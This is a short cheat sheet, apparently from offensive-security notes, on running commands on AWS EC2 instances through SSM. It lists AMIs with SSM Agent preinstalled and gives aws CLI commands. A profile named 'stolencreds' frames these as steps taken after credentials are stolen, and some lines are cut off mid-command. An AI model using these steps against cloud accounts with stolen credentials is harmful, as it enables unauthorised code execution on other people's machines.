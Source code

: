# AWS -SSM - Command Execution

## The ssm-user account is not removed from the system when SSM Agent is uninstalled

### SSM Agent is preinstalled, by default, on the following Amazon Machine Images (AMIs):

 - Windows Server 2008-2012 R2 AMIs published in November 2016 or later

 - Windows Server 2016 and 2019

 - Amazon Linux

 - Amazon Linux 2

 - Ubuntu Server 16.04

 - Ubuntu Server 18.04

 - Amazon ECS-Optimized

### Commands:

    aws ssm describe-instance-information --profile stolencreds --region eu-west-1

    aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript"

    aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query

### Eg:

    aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript
